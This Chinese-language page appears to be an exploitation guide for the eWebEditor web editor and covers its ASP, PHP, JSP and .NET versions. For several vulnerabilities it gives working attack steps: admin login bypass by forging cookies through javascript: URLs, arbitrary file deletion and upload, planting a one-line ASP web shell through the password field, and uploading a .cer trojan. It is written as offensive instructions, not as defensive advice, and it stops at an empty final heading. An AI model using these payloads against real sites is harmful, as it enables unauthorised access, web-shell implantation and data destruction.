 ### eWebEditor2.8.0最终版删除任意文件漏洞

脆弱描述：
此漏洞存在于Example\NewsSystem目录下的delete.asp文件中，这是ewebeditor的测试页面，无须登陆可以直接进入。
攻击利用: (请修改action字段为指定网址)
Del Files.html

### eWebEditor PHP/ASP 后台通杀漏洞

影响版本: PHP ≥ 3.0~3.8与asp 2.8版也通用，或许低版本也可以，有待测试。
攻击利用:
进入后台/eWebEditor/admin/login.php,随便输入一个用户和密码,会提示出错了.
这时候你清空浏览器的url,然后输入

javascript:alert(document.cookie=”adminuser=”+escape(“admin”));
javascript:alert(document.cookie=”adminpass=”+escape(“admin”));
javascript:alert(document.cookie=”admindj=”+escape(“1”));

而后三次回车,清空浏览器的URL,现在输入一些平常访问不到的文件如../ewebeditor/admin/default.php，就会直接进去。

### eWebEditor for php任意文件上传漏洞

影响版本:ewebeditor php v3.8 or older version
脆弱描述:
此版本将所有的风格配置信息保存为一个数组$aStyle,在php.ini配置register_global为on的情况下我们可以任意添加自己喜欢的风格，并定义上传类型。
攻击利用:
phpupload.html

### eWebEditor JSP版漏洞

大同小异，我在本文档不想多说了，因为没环境 测试，网上垃圾场那么大，不好排查。用JSP编辑器的我觉得eweb会比FCKeditor份额少得多。

### eWebEditor 2.8 商业版插一句话木马

影响版本:=>2.8 商业版
攻击利用:
登陆后台，点击修改密码—-新密码设置为 `1":eval request("h")’`
设置成功后，访问asp/config.asp文件即可，一句话木马被写入到这个文件里面了.

注意：可能因为转载的关系，代码会变掉，最好本地调试好代码再提交。

### eWebEditorNet upload.aspx 上传漏洞(WebEditorNet)

脆弱描述：
WebEditorNet 主要是一个upload.aspx文件存在上传漏洞。
攻击利用:
默认上传地址：/ewebeditornet/upload.aspx
可以直接上传一个cer的木马
如果不能上传则在浏览器地址栏中输入javascript:lbtnUpload.click();
成功以后查看源代码找到uploadsave查看上传保存地址，默认传到uploadfile这个文件夹里。

### southidceditor(一般使用v2.8.0版eWeb核心)
